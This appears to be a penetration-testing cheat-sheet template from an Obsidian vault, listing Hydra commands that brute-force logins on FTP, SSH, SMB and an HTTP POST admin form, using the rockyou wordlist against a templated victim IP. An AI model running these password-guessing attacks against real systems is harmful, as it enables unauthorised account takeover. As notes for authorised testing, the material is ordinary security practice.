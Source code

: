 ```yaml
---
tags:
  - Cracking
  - Hydra
---
```


> [!example] Hydra - ftp
> 
> ```
> hydra <% tp.frontmatter["VictimIP"] %> -l usuario -P /usr/share/wordlists/rockyou.txt  ftp://<% tp.frontmatter["VictimIP"] %>
> ```

> [!example] Hydra - ssh
> 
> ```
> hydra <% tp.frontmatter["VictimIP"] %> -l usuario -P /usr/share/wordlists/rockyou.txt  ssh://<% tp.frontmatter["VictimIP"] %>
> ```

> [!example] Hydra - smb
> 
> ```
> hydra <% tp.frontmatter["VictimIP"] %> -l usuario -P /usr/share/wordlists/rockyou.txt  smb://<% tp.frontmatter["VictimIP"] %>
> ```

> [!example] Hydra - post-form
> 
> ```
> hydra -l usuario -P /usr/share/wordlists/rockyou.txt <% tp.frontmatter["VictimIP"] %> http-post-form "/admin.php:username=^USER^&password=^PASS^:login_error"
> ```
